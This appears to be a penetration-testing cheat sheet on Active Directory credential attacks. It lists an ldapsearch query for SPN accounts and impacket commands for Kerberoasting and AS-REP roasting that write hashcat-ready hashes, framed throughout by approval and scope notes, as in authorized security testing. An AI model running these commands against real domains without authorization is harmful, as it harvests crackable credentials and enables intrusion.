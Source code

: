# SPN Discovery & Roastable Accounts (Approval required for collection)

Identify accounts with SPNs (Linux)
ldapsearch -H ldap://<IP> -D "DOMAIN\\USER" -W -b "DC=corp,DC=local" "(&(objectCategory=person)(servicePrincipalName=*))" sAMAccountName servicePrincipalName

Kerberoast (collection only with explicit written approval)
# Discover and request TGS for SPN accounts
# impacket-GetUserSPNs DOMAIN/USER:PASS -dc-ip <DC_IP> -request -outputfile spns_<DOMAIN>.csv
# The output may include service tickets suitable for offline cracking; handle as sensitive evidence.

AS-REP roast (accounts without preauth; approval required)
# impacket-GetNPUsers DOMAIN/ -dc-ip <DC_IP> -usersfile users.txt -format hashcat -outputfile asreproast_<DOMAIN>.txt

Password cracking
# Use organization-approved cracking policies and wordlists.
# Validate any recovered creds only within scope; stop on success and document.

Notes
- Coordinate with blue team; respect lockouts and monitoring.
- Treat any collected material as highly sensitive; follow handling & destruction policies.
